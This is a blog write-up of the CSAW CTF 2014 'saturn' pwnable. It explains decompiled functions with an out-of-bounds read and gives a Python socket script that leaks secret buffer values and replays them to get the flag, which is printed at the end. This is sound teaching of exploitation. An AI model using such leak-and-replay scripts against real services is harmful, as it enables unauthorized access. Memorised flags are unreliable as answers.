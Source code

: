 ```yaml
---
title: CSAW CTF 2014 -- Exploitation 400 saturn
comments: true
permalink: "/:title/"
tags:
- CTF
- CSAW
- Python
- Pwnable
categories:
- write-ups
date: '2014-09-25 09:35:00 +0000'
---
```


First the challenge gave us a binary file (ELF for Intel-386). But we can't execute it, cause we don't have the required shared library **"libchallengeresponse.so"**. So we will have to launch IDA Pro to see what's going on within the program.
<!-- more -->

After analyzing the program ( praise the powerful F5 key! ) , I collected the following information:

# Main function

``` c
int main()
{
  puts("CSAW ChallengeResponseAuthenticationProtocol Flag Storage");
  
  for ( i = 0; i <= 0; ++i )
  {
    v0 = read_one_byte();
    v3 = v0;
    v1 = v0 & 0xF0;
    switch ( v1 )
    {
      case 160: //0xA0
        functionA(v3);
        i -= 2;
        break;
      case 224: //0xE0
        functionB(v3);
        i -= 2;
        break;
      case 128: //0x80
        functionC();
        break;
    }
  }
  return 0;
}
```

As we can see, the main function will read a byte from the user input, and do the `&` operation. `v1` will hold the result, and a `switch-case` condition will decide which function to run next, base on `v1`'s value. 

So basically, we can summarize that the main function will **only accept 3 kinds of input**: `0xA0 ~ 0xAF`, `0xE0 ~ 0xEF` and `0x80 ~ 0x8F`. Now let's take a good look at those functions.

# functionA

```c
functionA (char a1)
{
	int v2; 
	v2 = *((int *)bufferA + (a1 & 0xF));

	print_four_char_which_store_in_v2();
}
```

In `functionA`, we found a `bufferA`, which start from a specific address. `functionA` will take the original input (a byte value) as the parameter, extract its last 4 bit, take it as the offset from `bufferA` and calculate the position's address. Then, `v2` will store a 4 bytes value, start from the new address in `bufferA`. At last the function will print out 4 char (= 4 byte) which was stored in `v2`.

Note that if the offset is `0x1`, the new address will start from `bufferA + 4`, if the offset is `0x2`, the new address will start from `bufferA + 8`...and so on (basic knowledge of pointer).

# functionB

```c
functionB (char a1)
{
	offser = a1 & 0xF
  
	v4 = *((int *)bufferB + offset);
	read_four_byte_from_input(v5);
  
	if ( v5 != v4 )
  		exit(0);
  
	bufferC[offset] = 1;
}
```
In `functionB`, we found `bufferB` and `bufferC` , both start from a specific address. Like `functionA`, `functionB` also take the original input (a byte value) as the parameter, extract its last 4 bit and take it as a `offset`. But there's a slight difference. In `functionB`, `v4` will store a 4 bytes value, start from the new position in `bufferB`, while another variable `v5` also read a 4 bytes value from the user input and hold its value. Then, the function will compare these two value, if they are the same, it will store value `1` in `bufferC`, the position is also base on the `offset`'s value.

So, if the user input is `0xE4`, `offset` will store the value `4`, `v4` will store the value `bufferB + 16` ~ `bufferB + 20`, `v5` will read another 4 bytes from user input. If `v4 == v5`, then `bufferC[4]` will store the value `1`

# functionC

```c
functionC()
{
	v6 = 1;
	
	for( i = 0 ; i <= 7 ; i++ )
 	{
 		v6 *= bufferC[i]
	}
  
	if (v6 == 0)
  		exit(0);	
	else
  		print_flag()
}
```
`functionC` is quite simple. It just calculate the factorial of all the values stored in `bufferC`. If the result isn't `0`, it will print out the flag, or else it will terminate the program. 

So, to sum up all the functions mentioned previously and how are we going to exploit:

1. use `functionA` to get all the values stored in `bufferB` (use IDA pro to check the offset between `bufferA` and `bufferB`, the offset is `32` (`0x20`) )
2. use `functionB` to overwrite the value in `bufferC`, in order to pass the checking function `functionC`
3. use `functionC` to get the flag

But here is the tricky part: **the values stored in** `bufferB` **are not fixed**. 
So, I finally decided to write a python script to solve the challenge. 

```python
from socket import *
from struct import *
 
sock = socket(AF_INET, SOCK_STREAM) #create socket (IP, TCP)
sock.connect(("54.85.89.65" , 8888))

print sock.recv(1024) #recv the title

"""
arr: inputs for getting bufferB's value
arr2: inputs for modifying bufferC's value
int_send: for storing the content of bufferB
"""

arr = ['\xA8', '\xA9','\xAA','\xAB','\xAC','\xAD','\xAE','\xAF']
arr2 = ['\xE0', '\xE1','\xE2','\xE3','\xE4','\xE5','\xE6','\xE7']
int_send = []

for c in arr:
	sock.send(c)
	data = sock.recv(4) #recv 4 bytes
	d = unpack("<I", data)[0] #unpack as an unsigned integer, little-endian format 
	int_send.append(d) # store the bufferB's value

send_cnt = 0

for i in int_send:
	sock.send(arr2[send_cnt]);
	sock.send(pack("<I",(i & 0xFFFFFFFF))) # force format to 32bit
	send_cnt += 1

sock.send('\x80') #get flag
print sock.recv(1024) #print flag
sock.close()  

```

the flag: `flag{greetings_to_pure_digital}`
